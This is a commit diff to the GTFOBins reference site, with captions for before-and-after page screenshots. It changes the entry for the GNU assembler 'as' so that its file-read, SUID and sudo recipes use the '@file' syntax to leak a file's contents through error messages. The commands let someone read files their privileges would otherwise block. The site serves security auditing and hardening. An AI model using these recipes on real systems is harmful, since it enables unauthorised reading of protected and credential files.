

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/as.md, in a window 1280 px wide. Shown: the whole page at 97% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Use @ syntax

```diff
--- a/_gtfobins/as.md
+++ b/_gtfobins/as.md
@@ -1,16 +1,16 @@
 ---
-description: The GNU Assembler, commonly known as gas or simply as, its executable name, is the assembler used by the GNU Project.
+description: The file content is treated as command line options and disclosed throught error messages, so this is not suitable to read arbitrary binary data.
 functions:
   file-read:
     - code: |
         LFILE=file_to_read
-        as $LFILE
+        as @$LFILE
   suid:
     - code: |
         LFILE=file_to_read
-        as $LFILE
+        ./as @$LFILE
   sudo:
     - code: |
         LFILE=file_to_read
-        sudo as $LFILE
+        sudo as @$LFILE
 ---
```
